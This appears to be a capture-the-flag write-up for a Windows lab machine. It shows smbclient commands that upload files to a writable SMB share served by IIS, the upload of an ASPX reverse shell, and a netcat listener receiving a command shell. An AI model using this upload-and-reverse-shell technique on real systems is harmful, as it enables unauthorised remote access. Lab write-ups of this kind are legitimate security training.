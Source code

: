 SO the server is vulnerable to `ms17-010` i.e `Ethernal blue`.

I got stuck what to do So searched for SMB exploit and still not even manual eternal blue exploit worked.

So I found out that the `nt4wrksv` share is accessible and also we can put certain files.

There is windows server running on port 49663 and it contains this share `nt4wrksv/`

```
smbclient //10.10.177.188/nt4wrksv
```

```
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> put test.txt 
putting file test.txt as \test.txt (0.0 kb/s) (average 0.0 kb/s)
smb: \> ls
  .                                   D        0  Sat Sep 19 14:22:23 2020
  ..                                  D        0  Sat Sep 19 14:22:23 2020
  passwords.txt                       A       98  Sat Jul 25 20:45:33 2020
  test.txt                            A       18  Sat Sep 19 14:22:24 2020

                7735807 blocks of size 4096. 4946765 blocks available
smb: \> 


http://10.10.177.188:49663/nt4wrksv/test.txt
Hello its working
```

So we can upload reverse shell into this but IIS Server allows aspx files.

I got this shell from github (Change the IP and Port in the script)

```
smb: \> rm shell.aspx
smb: \> put new.aspx
putting file new.aspx as \new.aspx (15.2 kb/s) (average 15.2 kb/s)
smb: \> ls
  .                                   D        0  Sat Sep 19 14:45:12 2020
  ..                                  D        0  Sat Sep 19 14:45:12 2020
  new.aspx                            A    15969  Sat Sep 19 14:45:13 2020
  passwords.txt                       A       98  Sat Jul 25 20:45:33 2020

                7735807 blocks of size 4096. 4945302 blocks available
smb: \> 
```

Fire up netcat listener on port 1234 and see if we can get reverse shell.

```
nc -nvlp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.177.188 49885
Spawn Shell...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

